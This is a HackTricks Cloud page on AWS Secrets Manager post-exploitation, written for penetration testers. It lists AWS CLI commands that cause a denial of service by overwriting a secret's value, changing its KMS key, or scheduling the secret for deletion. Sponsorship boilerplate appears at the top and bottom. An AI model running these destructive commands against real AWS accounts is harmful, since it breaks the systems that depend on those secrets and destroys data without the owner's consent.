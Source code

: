 # AWS - Secrets Manager Post Exploitation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Secrets Manager

For more information check:

{% content-ref url="../../aws-security/aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../../aws-security/aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../../aws-security/aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

{% hint style="warning" %}
Note that previous values are also stored, so it's easy to just go back to the previous value.
{% endhint %}

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimun num of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
